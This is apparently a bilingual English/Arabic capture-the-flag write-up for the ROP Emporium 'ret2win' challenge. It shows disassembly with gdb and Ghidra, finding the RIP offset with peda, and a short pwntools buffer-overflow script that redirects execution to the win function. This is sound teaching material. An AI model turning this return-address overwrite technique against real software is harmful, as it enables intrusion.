

# Ret2Win
- Download & Start solve the challenge:
- - ``curl https://ropemporium.com/binary/ret2win.zip -O``
- - ``unzip ret2win.zip``

---------
### And we got this files / نحصل هل ملفات


- ``flag.txt``
- ``ret2win``
-----


- By using  : ``gdb ./ret2win``, to debug a program
- لاستعراض و قرأة البرنامج بلغة اسمبلي ,  ``gdb ./ret2win`` باستخدام
- لعرض دوال البرنامج `info function` بأستخدام


- disassemble ``main()`` function
-  بـ الاسمبلي ``main()`` نعرض داله


* There is call to ``pwnme()`` function
 *  ``pwnme()`` نلاحظ فيه عمليه استدعاء لدالة
  
----
 * disassemble ``pwnme()`` function
 *   بـ الاسمبلي ``pwnme()`` نعرض داله


### ``lea => [Load Effective Address] instruction`` :
``` 
lea    Destination, Source

lea     AX, [BP-0x20] ; 0x20 => 32
AX في المثال هذا يحسب و يقوم بوضع قيمة الأزاحه في المسجل 


* AX (accumulator)  | المجمع او مركم
لعمليات الـ ادخال والاخراج وعمليات الحساب AX يستخدم المسجل

* BP (Base Pointer) | مؤشر القاعدة
stack/للتخاطب/ للأشاره مع البينات الموجوده حالياّّ في المكدس BP يستخدم المسجل
```
-----

* or using ``Ghidra`` to help us ``decompiler`` to source code
* ``decompiler`` تساعدنا نسوي  ``Ghidra`` او باستخدام 
*  source code ونستخرج سورس **تقريبي** الى حالته الاصليه
 
 


---
- disassemble ``ret2win()`` function
-   بـ الاسمبلي ``ret2win()`` نعرض داله


  لتوضيح ``Ghidra`` صوره من خلال


----
حلو حالياََ فهمنا عمل البرنامج و مكان الاصابه , باقي الاستغلال ..

المتطلبات : 
- 1 - find the ``RIP`` offset 
- 2 - ``ret2win()`` function address
- 3 - write the script

---
## 1 .
-  عندنا اضافة جميله ``peda`` من خلال
-   بسهوله ``offset`` ونستخرج الـ ``pattern`` نقدر ننشئ 
-   ``pattern_create 56``


- ``RIP`` لنستخرج وين بالضبط يتم الكتابه على سجل الـ  ``pattern`` نشغل البرنامج ونضع الـ 
- ``run/r`` لتشغيل البرنامج


**RSP** -> ``AA0AAFAA``
```
SP (Stack Pointer) مؤشر المكدس
وظيفته بشكل مختصر يؤشر إلى أعلى المكدس الحالي
```
- ``pattern offset AA0AAFAA``


----
## 2 .
- وبكذا نقدر نكتب السكربت ونحصل الفلاق ``ret2win()`` function address ناقصنا حالياََ الـ 
- ``p/print ret2win``


-----
## 3 .
```python
from pwn import *

p = process("./ret2win")
p.recv()

payload  = b"A" * 40
payload += p64(0x40053e) # ret 
payload += p64(0x400756) # ret2win() address
# p64() -> https://docs.pwntools.com/en/stable/util/packing.html#pwnlib.util.packing.p64

p.send(payload)
print(p.recvall().decode("UTF-8"))
```
* ``push instruction`` لـ تخطي الـ  ``extra ret`` استخدمت الـ
* https://ropemporium.com/guide.html#Common%20pitfalls
* [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) : بستخدام 




